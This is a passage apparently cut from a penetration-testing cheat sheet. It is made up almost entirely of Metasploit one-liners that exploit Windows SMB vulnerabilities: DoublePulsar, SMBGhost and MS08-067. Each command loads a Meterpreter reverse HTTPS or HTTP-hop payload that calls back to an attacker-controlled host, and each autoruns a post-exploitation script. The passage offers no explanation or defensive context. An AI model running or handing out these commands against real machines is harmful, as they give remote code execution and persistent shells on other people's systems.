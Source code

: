 ```bash
    run -j"
```

{% hint style="info" %}
Doublepulsar Exploit (ٌWin 7 to 10 - Win Server 2008 to 2012)
{% endhint %}

```bash
msfconsole -qx "
    use exploit/windows/smb/smb_doublepulsar_rce;
    set PAYLOAD windows/x64/meterpreter/reverse_https;
    set RHOSTS $TARGET;
    set LHOST $NGHOST;
    set LPORT 443;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set HandlerSSLCert $CERT;
    set StagerVerifySSLCert true;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```

{% hint style="info" %}
SMBGhost Exploit (Win 10)
{% endhint %}

```bash
msfconsole -qx "
    use exploit/windows/smb/cve_2020_0796_smbghost;
    set PAYLOAD windows/x64/meterpreter/reverse_https;
    set RHOSTS $TARGET;
    set LHOST $NGHOST;
    set LPORT 443;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set HandlerSSLCert $CERT;
    set StagerVerifySSLCert true;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```

{% hint style="info" %}
Net API Exploit (Win XP's)
{% endhint %}

```bash
msfconsole -qx "
    use exploit/windows/smb/ms08_067_netapi;
    set PAYLOAD windows/meterpreter/reverse_hop_http;
    set RHOSTS $TARGET;
    set LHOST $NGHOST;
    set LPORT 443;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set HandlerSSLCert $CERT;
    set StagerVerifySSLCert true;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```
